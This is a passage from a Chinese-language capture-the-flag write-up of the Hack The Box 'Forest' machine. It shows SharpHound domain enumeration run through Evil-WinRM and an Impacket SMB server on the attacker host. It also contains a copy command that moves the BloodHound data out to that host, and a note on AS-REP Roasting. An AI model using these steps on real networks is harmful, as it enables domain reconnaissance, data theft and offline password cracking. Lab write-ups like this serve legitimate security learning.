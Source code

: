 ```powershell
2024-07-17T23:49:49.7744906-07:00|ERROR|[CommonLib DCRegProc]Error getting data from registry for FOREST.HTB.LOCAL: SYSTEM\CurrentControlSet\Services\Kdc:StrongCertificateBindingEnforcement
System.Security.SecurityException: Requested registry access is not allowed.
   at System.ThrowHelper.ThrowSecurityException(ExceptionResource resource)
   at Microsoft.Win32.RegistryKey.OpenSubKey(String name, Boolean writable)
   at SharpHoundCommonLib.SHRegistryKey.GetValue(String subkey, String name)
   at SharpHoundCommonLib.Helpers.GetRegistryKeyData(String target, String subkey, String subvalue, ILogger log)
The Zone of the assembly that failed was:
MyComputer
2024-07-17T23:49:49.8838688-07:00|INFORMATION|Consumers finished, closing output channel
Closing writers
2024-07-17T23:49:49.8994912-07:00|INFORMATION|Output channel closed, waiting for output task to complete
2024-07-17T23:49:50.0088653-07:00|INFORMATION|Status: 475 objects finished (+475 10.55556)/s -- Using 49 MB RAM
2024-07-17T23:49:50.0088653-07:00|INFORMATION|Enumeration finished in 00:00:45.5961735
2024-07-17T23:49:50.0713697-07:00|INFORMATION|Saving cache with stats: 412 ID to type mappings.
 412 name to SID mappings.
 1 machine sid mappings.
 2 sid to domain mappings.
 0 global catalog mappings.
2024-07-17T23:49:50.1026173-07:00|INFORMATION|SharpHound Enumeration Completed at 11:49 PM on 7/17/2024! Happy Graphing!
```

> *Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> ./SharpHound.exe -c all

```shell
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.10.10.161,61744)
[*] AUTHENTICATE_MESSAGE (\,FOREST)
[*] User FOREST\ authenticated successfully
[*] :::00::aaaaaaaaaaaaaaaa
[*] Disconnecting Share(1:KALI)
[*] Closing down connection (10.10.10.161,61744)
```

> ┌──(root㉿kali)-[/home/kali/Desktop]
> └─# sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .

开启一个`smb`获取`SharpHound.exe`生成的压缩包

> *Evil-WinRM* PS C:\Users\svc-alfresco\Desktop> copy 20240717234949_BloodHound.zip \\10.10.16.24\kali\20240717234949_BloodHound.zip

用`bloodhound`分析,标记`svc-alfresco`为已取得的主机<img src="C:/Users/qianenzhao/AppData/Roaming/Typora/typora-user-images/image-20240718181350999.png" alt="image-20240718181350999" style="zoom:75%;" />


[^3]: 对于未启用预身份验证的用户帐户（基本上禁用了 Kerberos 预身份验证），它容易受到 AS-REP Roasting 攻击。我们可以在不提供任何身份验证的情况下请求该用户的 Kerberos TGT 票证，并且我们将取回的 TGT 票证将使用该帐户的密码进行加密。所以我们可以离线破解哈希值。使用Impacket的GetNPUsers.py脚本，我们可以进行攻击
[^5]: https://github.com/BloodHoundAD/SharpHound/releases/tag/v2.4.1